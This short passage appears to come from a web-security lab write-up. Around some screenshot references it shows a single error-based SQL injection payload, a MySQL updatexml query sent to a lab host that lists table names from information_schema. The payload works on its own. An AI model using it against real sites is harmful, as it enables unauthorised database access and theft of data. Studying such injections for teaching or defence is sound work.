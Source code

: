 

​	![image-20210707112241464](websafe/image-20210707112241464.png)

```mysql
http://172.16.12.2/updatexml_Digital.php
?id=1 and updatexml(1,(select group_concat(table_name) from information_schema.tables where table_schema = 0x64656465636d7376353767626b737031),1) --+
```

![image-20210707113122116](websafe/image-20210707113122116.png)

2
